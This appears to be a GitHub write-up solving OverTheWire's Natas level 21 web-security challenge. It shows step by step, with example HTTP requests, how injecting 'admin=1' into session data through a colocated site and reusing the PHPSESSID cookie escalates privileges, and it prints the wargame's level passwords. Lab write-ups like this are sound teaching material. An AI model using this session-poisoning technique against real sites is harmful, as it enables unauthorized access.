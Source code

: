 # Natas CTF Solutions  

## Natas Level 21  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit session-based authentication using **session manipulation** across a colocated website.  
- Retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas21.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas21`  
- **Password:** Use the password from Natas Level 20:  
```
BPhv63cKE1lkQl04cE5CuFTzXe15NfiH
```  

![Home_Page](https://github.com/user-attachments/assets/44d7df16-d152-46d3-ad46-e6f2e4e9cb55)
![Source_Code](https://github.com/user-attachments/assets/15c96788-0404-413a-a957-aef651a9cdaf)

---

### **Step 3: Discover the Colocated Website**  
There’s a second site linked to this level:  
```  
http://natas21-experimenter.natas.labs.overthewire.org  
```  
- The **colocated site** is used to manipulate session data.  

![Colocated_Site](https://github.com/user-attachments/assets/a3cc4e99-65dd-4790-8a9e-143056136f46)
![Source_Code](https://github.com/user-attachments/assets/4f1aa994-5005-4432-9f59-0e99a546d90c)

---

### **Step 4: Analyze the Webpage**  
- The experimenter site sets session data using `POST` requests.  
- The session data is stored using key-value pairs.  

---

### **Step 5: Exploit Using Burp Suite**  
1. Open **Burp Suite**.  
2. Intercept a `POST` request to the experimenter site:  
```
http://natas21-experimenter.natas.labs.overthewire.org/index.php
```
3. Modify the payload to:  
```  
admin=1  
```
![image](https://github.com/user-attachments/assets/88fc6d33-821b-4978-aab1-c9f9dba66220)

4. Send the modified request using **Repeater**.  

✅ Example Request:  
```http
POST /index.php?debug HTTP/1.1
Host: natas21-experimenter.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=SESSION_ID

admin=1
```
![image](https://github.com/user-attachments/assets/e56feeb4-8ce2-4c87-af55-23ed097455a6)

---

### **Step 6: Capture the Session ID**  
- After sending the request, the response will return an updated session ID.  
- Copy the `PHPSESSID` value.  
![image](https://github.com/user-attachments/assets/c5c2c9e8-dcc2-48af-94ff-a4c84ea98d31)
![image](https://github.com/user-attachments/assets/8dbcdfa7-ba40-46eb-863a-40ad18bd73a8)

---

### **Step 7: Use the Session on Natas21**  
1. Open a new request to:  
```  
http://natas21.natas.labs.overthewire.org/index.php?debug  
```  
2. Attach the modified session ID in the `Cookie` header:  
```http
GET /index.php?debug HTTP/1.1
Host: natas21.natas.labs.overthewire.org
Cookie: PHPSESSID=SESSION_ID
```

✅ If successful, the server will recognize the session as admin and reveal the password!  

![Output](https://github.com/user-attachments/assets/4200748c-6dda-4204-8cd4-80744960b468)

---

### **Step 8: Output**  
After submitting the session, the output will reveal the password for the next level:  
```  
The password for natas22 is: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz  
```  

---

### **✅ Password for Natas Level 22**  
```
d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz
```  

---

## 💡 **Lessons Learned**  
✔️ **Session Hijacking:** Session data can be manipulated if stored insecurely.  
✔️ **Privilege Escalation:** Direct manipulation of session keys can bypass access control.  
✔️ **Session Binding:** Sessions tied to external domains may expose security flaws.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Experimenter Site | ![Colocated_Site](https://github.com/user-attachments/assets/a3cc4e99-65dd-4790-8a9e-143056136f46) |  
| Step 5 – BurpSuite Request | ![image](https://github.com/user-attachments/assets/c5c2c9e8-dcc2-48af-94ff-a4c84ea98d31) |  
| Step 7 – Found Password | ![Output](https://github.com/user-attachments/assets/4200748c-6dda-4204-8cd4-80744960b468) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 22**:  
👉 [http://natas22.natas.labs.overthewire.org](http://natas22.natas.labs.overthewire.org)  

---
